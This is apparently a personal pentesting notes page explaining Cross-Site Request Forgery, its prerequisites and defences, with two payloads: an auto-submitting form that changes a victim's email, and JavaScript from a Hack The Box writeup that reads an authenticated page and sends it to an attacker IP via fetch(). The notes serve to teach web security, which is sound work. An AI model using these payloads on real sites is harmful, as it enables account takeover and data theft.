 # Cross-Site Request Forgery

## Explanation

Cross-Site Request Forgery (CSRF) is an attack that forces **authenticated users** submit a request to a web application they are currently logged into. This allows attackers to do things like perform actions as an administrator, or alter properties of a user's account without their knowledge.

The methods of exploitation vary, as attackers can send maliciously crafted URLs sent to the user via social engineering, or stored XSS within a page to force the browser to load malicious Javascript. That being said, all CSRF attacks require these pre-requisites:

1. Presence of valuble action. The attacker needs to find something worth exploiting.
2. Session Management: User session should be managed **solely through cookies or HTTP Basic Authentication header**. Other HTTP headers cannot be altered, since the user's browser is the one sending the request.
3. No unpredictable parameters: The request must NOT have **securely implemented CSRF tokens or other parameters**. This is because CSRF tokens alone can be abused.

There are some defences present:
* SameSite cookies: Prevents browser from sending cookies along with cross-site requests.
* CORS: Prevents third-party sites from accessing information from the main site.
* User Verification: CAPTCHAs.
* CSRF Tokens: A unique token sent along with other request parameters. **Note that if implemented insecurely, this is useless**.

## Exploitation

One method of exploitation is through making the user visit a page that loads some malicious Javascript. This Javascript creates a form that will force the user to send a request specified by the attacker. This PoC can be generated by Burpsuite Professional (or found literally anywhere on the Internet).

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="evil@evil.com" />
      <input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

When visited, the user is forced to send a POST request to change emails via `document.forms[0].submit()` in `<script>` tags. This sends along the `email` and a fixed `csrf` parameter. If a user visits this site, their browser will send the POST request. If they are logged into the web application, then the email change will work.

The method above works assuming the CSRF token is **NOT TIED to user session**, and all the CORS settings are vulnerable.

Apart from changing emails, it is possible to steal entire page contents if XSS is abusable and I can inject Javascript code into their browser:

```js
/* Taken from my Derailed HTB Writeup */
var url = "http://derailed.htb:3000/administration";
var attacker = "http://10.10.14.29/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

The above sends page contents to the `/exfil` directory of my machine after forcing an authenticated user to visit any `url` specified. 
